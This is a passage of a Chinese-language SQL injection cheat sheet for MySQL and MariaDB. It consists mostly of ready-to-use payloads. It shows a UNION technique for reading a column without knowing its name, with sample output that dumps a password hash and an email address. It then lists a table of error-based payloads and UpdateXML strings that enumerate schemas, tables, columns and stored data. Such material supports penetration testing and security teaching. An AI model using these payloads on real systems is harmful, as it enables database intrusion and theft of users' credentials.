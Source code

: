 ### 在不知道列名的情况下提取数据

从第 4 列中提取数据，而不知道其名称。

```sql
SELECT `4` FROM (SELECT 1,2,3,4,5,6 UNION SELECT * FROM USERS)DBNAME;
```

在查询 `select author_id,title from posts where author_id=[INJECT_HERE]` 中的注入示例：

```sql
MariaDB [dummydb]> SELECT AUTHOR_ID,TITLE FROM POSTS WHERE AUTHOR_ID=-1 UNION SELECT 1,(SELECT CONCAT(`3`,0X3A,`4`) FROM (SELECT 1,2,3,4,5,6 UNION SELECT * FROM USERS)A LIMIT 1,1);
+-----------+-----------------------------------------------------------------+
| author_id | title                                                           |
+-----------+-----------------------------------------------------------------+
|         1 | a45d4e080fc185dfa223aea3d0c371b6cc180a37:veronica80@example.org |
+-----------+-----------------------------------------------------------------+
```

## MYSQL 错误基于

| 名称         | Payload         |
| ------------ | --------------- |
| GTID_SUBSET  | `AND GTID_SUBSET(CONCAT('~',(SELECT version()),'~'),1337) -- -` |
| JSON_KEYS    | `AND JSON_KEYS((SELECT CONVERT((SELECT CONCAT('~',(SELECT version()),'~')) USING utf8))) -- -` |
| EXTRACTVALUE | `AND EXTRACTVALUE(1337,CONCAT('.','~',(SELECT version()),'~')) -- -` |
| UPDATEXML    | `AND UPDATEXML(1337,CONCAT('.','~',(SELECT version()),'~'),31337) -- -` |
| EXP          | `AND EXP(~(SELECT * FROM (SELECT CONCAT('~',(SELECT version()),'~','x'))x)) -- -` |
| OR           | `OR 1 GROUP BY CONCAT('~',(SELECT version()),'~',FLOOR(RAND(0)*2)) HAVING MIN(0) -- -` |
| NAME_CONST   | `AND (SELECT * FROM (SELECT NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)--` |
| UUID_TO_BIN  | `AND UUID_TO_BIN(version())='1` |

### MYSQL 错误基于 - 基本

适用于 `MySQL >= 4.1`

```sql
(SELECT 1 AND ROW(1,1)>(SELECT COUNT(*),CONCAT(CONCAT(@@VERSION),0X3A,FLOOR(RAND()*2))X FROM (SELECT 1 UNION SELECT 2)A GROUP BY X LIMIT 1))
'+(SELECT 1 AND ROW(1,1)>(SELECT COUNT(*),CONCAT(CONCAT(@@VERSION),0X3A,FLOOR(RAND()*2))X FROM (SELECT 1 UNION SELECT 2)A GROUP BY X LIMIT 1))+'
```

### MYSQL 错误基于 - UpdateXML 函数

```sql
AND UPDATEXML(rand(),CONCAT(CHAR(126),version(),CHAR(126)),null)-
AND UPDATEXML(rand(),CONCAT(0x3a,(SELECT CONCAT(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)),null)--
AND UPDATEXML(rand(),CONCAT(0x3a,(SELECT CONCAT(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)),null)--
AND UPDATEXML(rand(),CONCAT(0x3a,(SELECT CONCAT(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)),null)--
AND UPDATEXML(rand(),CONCAT(0x3a,(SELECT CONCAT(CHAR(126),data_info,CHAR(126)) FROM data_table.data_column LIMIT data_offset,1)),null)--
```
